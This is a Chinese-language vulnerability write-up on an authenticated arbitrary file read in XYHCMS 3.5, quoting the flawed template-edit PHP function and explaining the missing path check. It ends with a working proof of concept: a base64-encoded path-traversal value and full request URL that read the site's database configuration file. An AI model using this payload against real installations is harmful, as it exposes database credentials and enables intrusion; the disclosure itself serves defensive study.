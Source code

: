 XYHCMS 3.5 后台任意文件读取
===========================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.5

三、复现过程
------------

### 漏洞分析

漏洞文件位置：`/App/Manage/Controller/TempletsController.class.php`
第59-83行：

    public function edit() {
            $ftype     = I('ftype', 0, 'intval');
            $fname     = I('fname', '', 'trim,htmlspecialchars');
            $file_path = !$ftype ? './Public/Home/' . C('CFG_THEMESTYLE') . '/' : './Public/Mobile/' . C('CFG_MOBILE_THEMESTYLE') . '/';
            if (IS_POST) {
                if (empty($fname)) {
                    $this->error('未指定文件名');
                }
                $_ext     = '.' . pathinfo($fname, PATHINFO_EXTENSION);
                $_cfg_ext = C('TMPL_TEMPLATE_SUFFIX');
                if ($_ext != $_cfg_ext) {
                    $this->error('文件后缀必须为"' . $_cfg_ext . '"');
                }
                $content  = I('content', '', '');
                $fname    = ltrim($fname, './');
                $truefile = $file_path . $fname;
                if (false !== file_put_contents($truefile, $content)) {
                    $this->success('保存成功', U('index', array('ftype' => $ftype)));
                } else {
                    $this->error('保存文件失败，请重试');
                }
                exit();
            }
            $fname = base64_decode($fname);
            if (empty($fname)) {
                $this->error('未指定要编辑的文件');
            }
            $truefile = $file_path . $fname;

            if (!file_exists($truefile)) {
                $this->error('文件不存在');
            }
            $content = file_get_contents($truefile);
            if ($content === false) {
                $this->error('读取文件失败');
            }
            $content = htmlspecialchars($content);

            $this->assign('ftype', $ftype);
            $this->assign('fname', $fname);
            $this->assign('content', $content);
            $this->assign('type', '修改模板');
            $this->display();
        }

这段函数中对提交的参数进行处理，然后判断是否POST数据上来，如果有就进行保存等，如果没有POST数据，将跳过这段代码继续向下执行。

我们可以通过GET传入fname，跳过前面的保存文件过程，进入文件读取状态。

对fname进行base64解码，判断fname参数是否为空，拼接成完整的文件路径，然后判断这个文件是否存在，读取文件内容。

对fname未进行任何限制，导致程序在实现上存在任意文件读取漏洞。

### 漏洞复现：

登录网站后台，数据库配置文件路径：`\App\Common\Conf\db.php`我们将这段组成相对路径，`..\\..\\..\\App\\Common\\Conf\\db.php`，然后进行base64编码，`Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==`

最后构造的链接形式如下：`http://www.0-sec.org/xyhai.php?s=/Templets/edit/fname/Li5cXC4uXFwuLlxcQXBwXFxDb21tb25cXENvbmZcXGRiLnBocA==`
